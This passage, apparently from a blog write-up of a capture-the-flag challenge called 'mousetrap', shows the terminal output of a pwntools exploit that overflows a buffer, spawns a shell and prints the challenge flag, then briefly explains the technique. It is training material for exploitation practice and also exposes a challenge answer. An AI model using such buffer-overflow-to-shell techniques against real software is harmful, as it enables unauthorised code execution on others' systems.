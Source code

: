 ```php
gr4n173@root:~# python exploit.py
+] Starting local process './mousetrap': pid 14085
[*] '/home/gr4n173/mystuff/onlinectf/hackpack/pwn/mousetrapfile/mousetrap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/gr4n173/mystuff/onlinectf/hackpack/pwn/mousetrapfile/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/usr/bin/gdbserver': pid 14089
[*] running in new terminal: /usr/bin/gdb -q  "./mousetrap" -x "/tmp/pwnQRen2_.gdb"
[*] Switching to interactive mode
Detaching from process 14105
$ ls
flag.txt
mousetrap
$ cat flag.txt
flag{C0nTr0l_S1Z3_4_$h3LL}
```


## Conclusion:-

This challenge include a simple Buffer overflow(BoF) task and had to call a function `cheeeeeeeese` where `/bin/sh` was located instead of providing our global offset of `/bin/sh`. 

Stay updated to my blog, I will be posting next writeup soon. I started writing a series of `Exploitation & Pwning` posts as this is my first post of this series here I explained about BoF. At last but not least I like to thank my friend `Linuz` for helping me out. 

I would like to thank all my reader. Feedback Really appreciated in comment below. 

Stay Safe

Keep Learning




